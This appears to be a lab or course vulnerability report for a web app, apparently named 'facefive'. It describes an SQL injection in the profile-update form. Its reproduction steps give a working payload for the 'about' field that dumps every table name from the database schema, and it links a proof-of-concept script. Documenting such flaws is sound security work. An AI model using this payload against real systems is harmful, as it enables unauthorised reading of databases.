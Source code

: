 # Vulnerability 5: SQL Injection in name form allows arbitrary read from database

- Vulnerability: SQL Injection
- Where: Update profile form fields (name, new\_password, about, photo)
- Impact: Allows reading all the tables names and the schema of the db


## Steps to reproduce

1. Update user's profile:
    1.1. Change the about field to:
    ```
    ', about=(
        SELECT tables
        FROM (
            SELECT "" AS g, group\_concat(table\_name) AS tables
            FROM (
                SELECT table\_name
                FROM information\_schema.tables
                WHERE table\_schema = 'facefivedb'
            ) AS T2
            GROUP BY g
        ) AS T1
    ) WHERE username = 'asdf'#
    ```

## Notes
Here we created a query that allowed us to read several rows and columns at the same time

[(POC)](profile_2.py)